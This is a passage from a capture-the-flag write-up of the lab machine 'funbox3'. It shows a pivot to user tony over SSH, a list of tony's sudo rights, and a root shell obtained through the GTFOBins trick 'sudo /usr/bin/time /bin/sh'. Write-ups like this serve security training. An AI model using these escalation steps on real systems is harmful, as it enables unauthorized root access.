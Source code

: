 ```bash
```

## Pivot to User Tony

```bash
www-data@funbox3:/home/tony$ ssh tony@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:lDqW7tOK4ZCIRla+OSX6KVPDsRFL04w865Q2Q7MR7+k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
tony@127.0.0.1's password:

tony@funbox3:~$ id
uid=1000(tony) gid=1000(tony) groups=1000(tony),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)

```

## Check Sudo Permissions for Tony

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh

```

## Check GTFOBins for Sudo

Review the above _/usr/bin_ binaries to see which can be exploited with Sudo to get a root shell.

![gtfobins](../../../assets/images/ctfs/proving_grounds/funboxeasy/gtfobins.png)

```bash
tony@funbox3:~$ sudo /usr/bin/time /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
